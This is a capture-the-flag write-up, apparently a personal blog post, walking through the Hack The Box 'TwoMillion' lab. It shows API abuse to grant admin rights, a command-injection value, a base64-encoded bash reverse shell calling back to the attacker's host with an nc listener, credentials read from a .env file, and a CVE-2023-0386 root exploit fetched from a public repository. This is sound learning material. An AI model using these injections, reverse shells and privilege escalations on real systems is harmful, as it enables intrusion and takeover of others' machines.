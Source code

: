 ```yaml
---
layout: single
classes: #wide
title: "TwoMillion"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [ctf, htb]
tags: [burp, api]
---
```

# TwoMillion:
![box](img/2mil-box.png)  
Hi, this is one of the first HTB boxes I have attempted.
Having done a few boxes in the past I had a little idea of 
what I was getting myself into but, this box put me through it.  

This is the first box I have tried using guided mode and it was a very
plesant supprise. If you haven't tried the HTB guided mode I would
definitely recommend it. 

### Nmap
Nmap scan:
![nmap scan](img/nmap.png)  
nmap scan found 2 tcp ports

### Page Exploration
Adding the ip and 2million.htb to my /etc/hosts file I navigated to
the page. Upon investagation of the page there was a join page and a login
page. The join page needed a code to get in. 

![code_login](img/code_login.png)  

Refreshing the page and looking in the network tab presented me with some
js files. One file was called inviteapi.min.js. The one issue with this
file is it was obfuscated.
![bad_code](img/code_found_in-invite.api.min.js.png)  
Upon deobfuscating the code you get:  
![good_code](img/fixed_code.png)  
Little more readable right?

Within this code there is the function makeInviteCode().
Executing this function manually within the console gives an output
encrypted in ROT13 (nothing a little cyberchef cant solve). Throwing the output into cyberchef you get the hint "In order to generate the invitation code, make a POST request to /api/v1/invitation/generate".
 
Curl came in clutch being able to send the post request:  
`curl -i -L -X POST -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -b "PHPSESSID=36tguu0940aidi58fmloe" http://2million.htb/api/v1/invite/generate`

The request responded with:   
{"0":200,"success":1,"data":{"code":"Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=","format":"encoded"}}  

The code can be decrypted using the following command:   
`echo "Tlk1VDQtV0tYSUYtSk82SlQtUTdVRFo=" | base64 --decode`  
My code was: `NY5T4-WKXIF-JO6JT-Q7UDZ`  

Going back to the forum now that we had a valid invite code I created
my account with the credentials:  
Username: Ryushe  
Email: Ryushe.dev@gmail.com  
Password: Ryu  

### VPN
Upon loging in I was greeted with a older verion of the current HTB
website. The most important part of the entire page was the vpn
page. This page was able to create/regenerate a valid vpn key.  

Using burp to inspect the request I noticed that the page was sending
a request to `/api/v1/user/vpn/generate`. Modifying the request a 
little to see how the website worked, I was able to see all the
different things the api could do when I navigated to `/api`. Going up
one directory would show the user all the valid api requests. 

![api](img/api_endpoints.png)  

Notice how there is a url to generate a vpn for not only a normal user,
but for an admin as well. 

Admin has an api request that allows us to check if we are admin:  
`GET /api/v1/admin/auth`  
Sending a GET request using burp we can see that we are indeed infact
not admin :(  
![Am_admin?][/img/admin-false.png]  

Now, there is another api url under the PUT category. This api link
allows the user to change admin settings. Using burp to send a
request will result in the a response saying "danger", "missing
perameter: email"

![email_not_valid](img/Missing_email_peram.png)  

Adding the email perameter you get something that looks like this:  

![email_valid](Misisng_isadmin_peram.png)  

Adding in the admin block and then checking our admin status we get:  
Note: is_admin has to be set to 1 like this `"is_admin":1`  

![admin_true](img/admin_true.png)  

Now, is when the magic starts to happen. We're root right? Ya, remember
the api call I mentioned before `api/v1/admin/vpn/generate`? We
can now successfully call that.

Calling the `vpn/generate` using a POST burp request it asks for us to give
it a user to make the vpn for. Putting
`{"username":"Ryushe"}`
in the request I get a successful vpn generation output.  

Now, this api endpoint has a command injection vulnerability in it.
We can test this by changing the request to `{"username":"Ryushe;ls;"}`  

### Command Injection Exploit
Now that we know that there is a command injection vulnerability we can
set-up a reverse shell into the machine. Using a basic reverse shell payload
(I used a bash reverse shell) we can encrypt it for transfer using:  
`echo "bash -i >& /dev/tcp/<ip of host>/8888 0>&1" | base64 `  
Now, we want to get a nc listener on our reverse shell:  
`nc -lvnp 8888`  
Copy the ouput and put it in where it says encrypted payload:  
`echo "<output of first command>" | base64 -d | bash`  
Paste the command into the machine you are attacking a press enter.
If all went went well you should now be in the machine.

Now, looking in the admin directory we see user.txt (the first flag)  
Hmm.. we need to take over admin user  

Taking a look at the .env file I was presented with the db name as well as
the the admin username and password.  
dbname=htb_prod  
username: admin  
password: SuperDuperPass123   
running: `su admin`  
with pass: `SuperDuperPass123`  
Loggs you into the admin account. Now, that you are admin you can get the 
user.txt file in the admin home directory. 

Upon logging into the user admin you are presented with a message:  

![mail](/assets/images/1you_have_mail.png)  

Upon looking at the /var/mail directory I found the file mail:  

![mail_contents](img/2mail.png)  

The email gave clues to check the db config so thats where I headed next.
Logging into mysql with the valid credentials I got from the .env file.
I did not find anything upon entering the mysql db.   

I decided to take another look at the email that was sent to admin. 
Upon further inpection I found that the email was talking about the
os that was hosting their services and something to do with overlayfs. 
Currently we are on version 22.04.1 of ubuntu and
googling ubuntu 22.04.1 overlayfs vunerabilities lead me to this [article](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#how-the-cve-2023-0386-vulnerability-works).  
Upon further investagation I found this [repo](https://github.com/sxlmnwb/CVE-2023-0386) that worked wonders: 
1. Clone onto host system  
2. settup a `python -m http.server`  
3. wget --recursive --no-parent <http://myip:port>
4. going to the dir with 2 different terminals I made the process and ran it with   
`./fuse ./ovlcap/lower ./gc`  
5. In the second terminal I ran `./exp` (and just like that we had root)  

![root](img/3proof-root.png)  

I ran sudo apt install plocate (to make finding the root flag easier)  
It did not.... (ended up waiting for it to fail over and over)  

Finally, I cd'ed into the root dir and there it was waiting for me the root.txt  
Catting the file I got the flag 


![pwn](img/Proof-of-pwn.png)  


### What I Learned
* Command injection vulnerability
* Curl -X -L <url>   
    - how to format curl for redirects and post requests  
* To try to spawn a shell earlier.. I was too caught up with 
other things I totally forgot you can spawn shells to make things easier  
Also ldconfig allows you to see lib versions.. didnt know that
* Better understanding of how to send burp requests and modify data
    - eg: Command injections



[def]: img/admin_false_burp.png
